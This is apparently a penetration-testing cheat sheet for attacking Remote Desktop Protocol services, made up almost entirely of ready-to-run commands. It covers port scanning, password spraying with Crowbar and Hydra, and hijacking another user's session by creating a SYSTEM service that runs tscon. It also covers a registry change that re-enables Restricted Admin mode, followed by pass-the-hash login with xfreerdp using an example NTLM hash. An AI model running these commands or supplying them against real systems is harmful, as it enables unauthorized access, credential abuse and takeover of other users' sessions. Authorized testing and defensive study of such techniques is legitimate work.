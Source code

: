 #  Remote Desktop Protocol (RDP)
## Enumeration

```
nmap -Pn -p3389 $rhost
```
## Misconfigurations

Since RDP takes user credentials for authentication, one common attack vector against the RDP protocol is password guessing. Although it is not common, we could find an RDP service without a password if there is a misconfiguration.
Using the [Crowbar tool](https://github.com/galkan/crowbar), we can perform a password spraying attack against the RDP service. 

```
crowbar -b rdp -s $rhost -U users.txt -c 'password123' # Example
```
### Hydra - RDP Password Spraying
```
hydra -L usernames.txt -p 'password123' $rhost rdp
```

### RDP Login
```
rdesktop -u $username -p $password $rhost
rdesktop -u admin -p password123 192.168.2.143 # Example
```

## RDP Session Hijacking

To successfully impersonate a user without their password, we need to have SYSTEM privileges and use the [Microsoft tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.

```
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```

If we have local administrator privileges, we can use several methods to obtain SYSTEM privileges, such as [PsExec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). 
A simple trick is to create a Windows service that, by default, will run as Local System and will execute any binary with SYSTEM privileges. We will use Microsoft sc.exe binary. First, we specify the service name (sessionhijack) and the binpath, which is the command we want to execute. 
Once we run the following command, a service named sessionhijack will be created.

```
query user
 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"
net start sessionhijack
```

## RDP Pass-the-Hash (PtH)

```
reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f
xfreerdp /v:$rhost /u:$user /pth:$hash
xfreerdp /v:192.168.220.152 /u:lewen /pth:300FF5E89EF33F83A8146C10F5AB9BB9 # Example

```



